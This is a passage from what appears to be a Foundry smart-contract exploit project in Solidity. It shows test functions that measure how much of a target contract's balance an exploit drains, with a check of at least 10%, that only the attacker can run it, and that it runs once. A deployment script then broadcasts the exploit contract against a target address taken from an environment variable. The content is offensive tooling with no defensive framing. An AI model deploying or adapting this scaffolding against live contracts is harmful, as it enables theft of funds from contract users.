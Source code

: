 ```solidity
        
        // Calculate impact
        uint256 impactPercentage = ((initialTargetBalance - finalTargetBalance) * 100) / initialTargetBalance;
        console.log("Impact percentage:", impactPercentage);
        
        // Verify impact is significant
        assertGe(impactPercentage, 10, "Should have significant impact (>10%)");
    }
    
    function testExploitOnlyByAttacker() public {
        // Try to execute exploit from different address
        vm.prank(victim);
        vm.expectRevert("Only attacker can execute");
        exploit.executeExploit();
    }
    
    function testExploitCannotBeRepeated() public {
        // Execute exploit once
        vm.prank(attacker);
        exploit.executeExploit();
        
        // Try to execute again
        vm.prank(attacker);
        vm.expectRevert("Exploit already executed");
        exploit.executeExploit();
    }
}
```

### **script/Deploy.s.sol**
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Script.sol";
import "../src/Exploit.sol";
import "../src/Target.sol";

contract DeployScript is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address targetAddress = vm.envAddress("TARGET_CONTRACT");
        
        vm.startBroadcast(deployerPrivateKey);
        
        // Deploy exploit contract
        ExploitContract exploit = new ExploitContract(targetAddress);
        
        console.log("Exploit deployed at:", address(exploit));
        console.log("Target contract:", targetAddress);
        
        vm.stopBroadcast();
    }
}
```
